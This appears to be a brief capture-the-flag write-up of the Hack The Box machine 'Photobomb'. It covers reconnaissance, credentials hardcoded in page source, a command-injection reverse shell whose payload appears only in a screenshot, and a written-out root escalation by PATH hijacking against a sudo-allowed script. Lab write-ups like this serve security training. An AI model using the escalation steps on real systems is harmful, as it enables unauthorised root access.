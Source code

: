 # Photobomb

After Nmap (22,80), edit the /etc/hosts file and inspect the web application.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Inspecting the code of `photobomb.htb`, there is this line: `http://pH0t0:b0Mb!@photobomb.htb/printer`

It logs in automatically.

Inspect the POST with burp to download a PNG photo and find diferrent parameteres, so lets use an encoded URL with the parameter to obtain a reverse shell:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Analyze the sudo permissions

`sudo -l`

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We open the script and see that find is using the relative path, not the absolute. So lets crate a find command as bash and execute it as root

```bash
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh # This add the pwd to the variable $PATH 
id

```

